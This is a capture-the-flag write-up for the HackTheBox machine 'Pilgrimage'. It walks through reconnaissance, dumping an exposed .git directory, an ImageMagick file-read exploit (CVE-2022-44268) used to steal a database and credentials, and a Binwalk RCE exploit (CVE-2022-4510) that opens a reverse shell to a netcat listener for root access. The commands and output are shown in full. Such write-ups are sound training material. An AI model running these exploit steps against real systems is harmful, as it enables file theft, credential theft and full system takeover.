 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=Pilgrimage)](https://git.io/typing-svg)


![image](https://github.com/ACHUX21/Writeups/assets/130113878/f56ab56c-d668-4104-804d-36911918050f)

# Enum

Let's start with a quick Nmap scan.

### Nmap Scan

```bash
root@Fs:.../HTB/Pilgrimage# nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb 
# Nmap 7.80 scan initiated Sun Jun 25 16:17:30 2023 as: nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.34s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 25 16:21:47 2023 -- 1 IP address (1 host up) scanned in 256.71 seconds
```

Let's check what's running on port 80.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/17d81c17-c872-440d-b3e8-d94e01776e80)

It seems to be an upload server, Let's try uploading something;

![image](https://github.com/ACHUX21/Writeups/assets/130113878/a336d714-72c4-46a3-a3a6-c350a1b28554)


By reading the Nmap scan, we realized that there's a .git/ directory.
Let's try to dump its contents.

```bash
git-dumper http://pilgrimage.htb/ git/
```

```bash
root@Fs:.../HTB/Pilgrimage# ls git/
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
```
By reading the contents of those files, we found some interesting information.
It appears that it's using SQLite as the database.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0d63c601-be8e-4074-8e57-6efe1e773736)


![image](https://github.com/ACHUX21/Writeups/assets/130113878/727f3288-669e-441c-b466-4c3d51edac78)

It's using ImageMagick to convert images.

By conducting a Google search, I found a [! CVE-2022-44268](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) (Common Vulnerabilities and Exposures) related to the discovered vulnerability.

let's try This POC

We have already identified the location where the DB stores data: "/var/db/pilgrimage".

Let's try to access this file.

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# python3 generate.py  -f "/var/db/pilgrimage" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > exploit.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert exploit.png result.png
```
Download Time:

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# wget http://pilgrimage.htb/shrunk/64af576f46ee8.png
--2023-07-13 02:46:53--  http://pilgrimage.htb/shrunk/64af576f46ee8.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1628 (1.6K) [image/png]
Saving to: ‘64af576f46ee8.png’

64af576f46ee8.png                     100%[========================================================================>]   1.59K  --.-KB/s    in 0s      

2023-07-13 02:46:54 (205 MB/s) - ‘64af576f46ee8.png’ saved [1628/1628]

root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert 64af576f46ee8.png result.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# identify -verbose result.png 
[output...]
```

Let's copy the "Raw profile type: " string and decode it using CyberChef.

From Hex;
![image](https://github.com/ACHUX21/Writeups/assets/130113878/6d9921f5-934c-4328-984e-1b34a93e5c39)

Let's Download the sqlite file
![image](https://github.com/ACHUX21/Writeups/assets/130113878/e4380801-0d68-4c84-b768-1710c9f1f2da)


Let's log in via SSH using those credentials.
![image](https://github.com/ACHUX21/Writeups/assets/130113878/02bd70c4-39d2-4bff-b2b9-160e853cfd00)

And we have successfully gained access .

# Priv-esc

```bash
emily@pilgrimage:~$ ls
linPEAS.sh  pspy64  user.txt
```

Let's run pspy64 first, followed by Linpeas, and hope to gather some valuable information.

After 10 years HAAHAH, we finally discovered some interesting findings.

```toml
2023/07/13 12:06:18 CMD: UID=0     PID=713    | /bin/bash /usr/sbin/malwarescan.sh
```
The content:

![image](https://github.com/ACHUX21/Writeups/assets/130113878/7dedbc7c-8cb4-41bd-adb3-cb2e889daecf)


I wasted a lot of time before realizing that Binwalk is outdated and has a CVE !! [Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

Let's utilize the ExploitDB script to gain root access

```bash

root@Fs:.../Pilgrimage/privesc# python3 exploit.py random-image.png 10.10.14.xxx 9999

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

root@Fs:.../Pilgrimage/privesc# scp binwalk_exploit.png emily@10.10.11.219:/var/www/pilgrimage.htb/shrunk/
emily@10.10.11.219's password: 
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
binwalk_exploit.png                                                                                                  100% 1084     3.4KB/s   00:00    

```


and we have access
```bash
root@Fs:.../Pilgrimage/privesc# nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.219 46362
ls
_binwalk_exploit.png.extracted
_e.png.extracted
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
[1]+  Stopped                 nc -lnvp 9999
root@Fs:.../Pilgrimage/privesc# stty raw -echo;fg
nc -lnvp 9999
             root@pilgrimage:~/quarantine# export TERM=xterm-256color
root@pilgrimage:~/quarantine# export SHELL=/bin/bash
root@pilgrimage:~/quarantine# ls
_binwalk_exploit.png.extracted	_e.png.extracted
root@pilgrimage:~/quarantine# ls /root
quarantine  reset.sh  root.txt
root@pilgrimage:~/quarantine# 
```

Goodbye! 💜

